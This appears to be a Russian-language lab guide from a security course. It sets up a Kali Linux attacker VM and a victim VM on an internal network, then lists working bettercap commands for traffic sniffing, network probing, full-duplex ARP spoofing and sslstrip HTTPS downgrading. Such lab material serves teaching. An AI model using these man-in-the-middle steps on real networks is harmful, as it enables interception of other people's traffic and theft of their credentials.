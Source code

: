## Создание и запуск виртуальной машины атакующего
1. Тип: Linux, Debian (64-bit)
2. Оперативная память: 2560 МиБ, процессор: 2+
3. Жесткий диск: отсутствует
4. CD диски: `kali-linux-2023.1-live-amd64.iso` и `kalipackages.iso`. \
    ![Диски ВМ атакующего](img/4/kali_disk.png)
5. Сеть: первый адаптер - внутренняя сеть `intnet`
6. Изменить последние 4 цифры MAC-адреса на XXYY (задание, п. 1)

После создания ВМ:

1. Запустить ВМ
2. Выбрать "Live system (amd64)" в загрузчике
3. Дождаться загрузки
4. Открыть терминал: ПКМ по рабочему столу > Open Terminal Here
5. Если рабочий стол виртуальной машины слишком маленький относительно размера окна в хост-системе, то попробовать изменить размер окна ВМ. Если не помогло, то ПКМ по рабочему столу > Open Terminal Here, ввести `xrandr --output Virtual1 --mode 1920x1080`, где 1920x1080 - одно из поддерживаемых разрешений. Полный список можно посмотреть выполнив `xrandr` без агрументов.
6. Открыть диск `Packages` (значок есть на рабочем столе), открыть терминал в открывшейся директории, выполнить `sudo dpkg -i *.deb`

## Запуск виртуальной машины пользователя сети
Аналогично запуску виртуальной машины атакующего, но без диска `kalipackages.iso` и пункта 6.

## ARP спуфинг
1. На машине атакующего в терминале выполнить `sudo bettercap`
2. Включить наблюдение за сетевым трафиком: ввести `net.sniff on`
3. Просканировать сеть, найти IP и MAC адрес ВМ пользователя сети: `net.probe on`. Когда ВМ пользователя сети будет найдена, сканирование можно отключить: `net.probe off`.
4. Включить ARP спуфинг
    * `set arp.spoof.targets ip`, где ip - IP адрес ВМ пользователя
    * `set arp.spoof.fullduplex true`
    * `set arp.spoof.internal true`
    * `arp.spoof on`

## sslstrip
В bettercap ввести:
```text
set http.proxy.sslstrip true
http.proxy on
```
